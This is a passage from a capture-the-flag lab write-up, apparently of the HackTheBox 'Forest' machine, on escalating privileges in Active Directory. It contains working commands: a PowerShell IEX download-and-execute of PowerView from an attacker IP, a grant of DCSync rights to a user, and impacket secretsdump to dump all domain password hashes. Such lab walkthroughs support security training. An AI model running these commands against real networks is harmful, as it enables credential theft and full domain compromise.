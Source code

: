  ![Untitled](/src/img/forest/Untitled%2021.png)
 
And now we can add our rights to our user using [Powerview.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
 
 **PowerView** is a **PowerShell** tool for gaining network situational awareness on Windows domains. It contains a set of purely PowerShell replacements for various **Windows** `net *` commands, which use **PowerShell** AD hooks and the underlying **Win32 API** functions to perform useful features of the **Windows** domain.
  We therefore set up a python server to be able to download the script to our target machine.
 
 ![Untitled](/src/img/forest/Untitled%2022.png)
 
We then execute the commands recommended by bloodhound, here we add the `DCSync` rights to our user.

 ```powershell
  *Evil-WinRM* PS C:\Users\svc-alfresco\Documents IEX(New-Object Net.WebClient).downloadString('http://10.10.14.12/PowerView.ps1')
  *Evil-WinRM* PS C:\Users\svc-alfresco\Documents $SecPassword = ConvertTo-SecureString 'toto123456' -AsPlainText -Force
  *Evil-WinRM* PS C:\Users\svc-alfresco\Documents $Cred = New-Object System.Management.Automation.PSCredential('HTB\0x307845 ', $SecPassword)
  *Evil-WinRM* PS C:\Users\svc-alfresco\Documents Add-ObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity 0x307845 -Rights DCSync
 ```
 
Here we use another impacket tool (`secretsdump`) to dump all the hashes present on the domain.

 ```bash
 impacket-secretsdump htb.local/0x307845:toto123456@10.10.10.161
 ```
 
 ![Untitled](/src/img/forest/Untitled%2023.png)
 